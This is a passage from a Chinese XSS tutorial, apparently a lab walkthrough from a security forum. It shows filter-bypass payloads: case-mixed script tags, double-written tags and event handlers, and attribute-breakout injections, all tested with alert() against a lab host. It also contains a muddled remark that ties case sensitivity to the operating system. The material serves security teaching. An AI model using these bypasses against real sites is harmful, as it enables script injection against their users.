 这个绕过方式的出现是因为网站仅仅只过滤了&lt;script&gt;标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。具体的方式就像这样：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-87a9ea0acb2c2b95d422258d49622a446f9c5099.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-87a9ea0acb2c2b95d422258d49622a446f9c5099.png)  
**利用语句：**

```html
http://192.168.1.102/xss/example2.php?name=<sCript>alert("hey!")</scRipt>
```

**其中：  
windows系统对大小写不敏感  
lunix系统对大小写敏感**

### 3.双写绕过：

```html
<script>alert(/xss/)</script>
<>alert(/xss/)</>
<scrscriptipt>alert(/xss/)</scrscriptipt>

<img src=1 onerror="alert(/1/)">
<img src=1 oonnerror="alert(/1/)">
```

**具体解题步骤:**  
1.任意输入，并按F12查看输出位置  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c1d22a931656f1f7045c236773ba12cfe69a15e4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c1d22a931656f1f7045c236773ba12cfe69a15e4.png)  
2.在输出框输入'';!--"&lt;XSS&gt;=&amp;{()}。查看符号是否会被过滤或转义  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9f716a11e89b60e05e680c936f0d2bb1ea8bd216.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9f716a11e89b60e05e680c936f0d2bb1ea8bd216.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5e4ea026c067272d343e6aab999b4a388e9b3d38.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5e4ea026c067272d343e6aab999b4a388e9b3d38.png)  
查看发现是以双引号闭合，符号未被过滤或者转义  
3.构造XSS语句进行注入

```html
"><script>alert(111)</script><"
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f9a4b43afbf1012dc548ab6da11c13d8fa1f6f3b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f9a4b43afbf1012dc548ab6da11c13d8fa1f6f3b.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7f75e2c56a465a915e25d25064bc79d89c11cc1e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7f75e2c56a465a915e25d25064bc79d89c11cc1e.png)  
发现script被过滤了  
4.这时我们进行双写绕过试试

```html
"><scrscriptipt>alert(111)</scrscriptipt><"
```
